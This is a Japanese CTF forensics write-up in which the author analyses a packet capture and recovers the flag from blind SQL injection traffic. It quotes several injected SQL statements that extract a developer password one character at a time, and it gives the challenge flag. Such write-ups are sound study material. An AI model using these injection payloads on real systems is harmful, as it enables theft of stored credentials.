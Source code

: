 # Pain in the ass:Forensics:181pts
It looks like someone dumped our database. Please help us know what has been leaked ...  
[pain-in-the-ass.pcapng](pain-in-the-ass.pcapng)  

# Solution
pcapngなのでWiresharkで解析するが何も見当たらない。  
どうやらSQLインジェクションを試しているようだが、ペイロードもアルファベット順に試行されており、ユーザーネームもd4rk2phiと変わった点は見られない。  
stringsを行うと以下のような記述が見られた。  
```text
th3_fl4g_1s_n0t_h3r3
h3r3_1s_n0t_th3_fl4g
l00k1ng_f0r_34sy_p01nts
3rr0r_b4s3d_1s_s0_34syC
```
fl4gやb4s3dで文字列検索してやるとその上の部分のペイロードに含まれている一文字が以下のようになっていた。  
```text
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),1,1) = 's' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),2,1) = 'h' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),3,1) = 'k' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),4,1) = 'C' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),5,1) = 'T' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),6,1) = 'F' and '1';
~~~
```
これがflagであった。  

## shkCTF{4lm0st_h1dd3n_3xtr4ct10n_0e18e336adc8236a0452cd570f74542}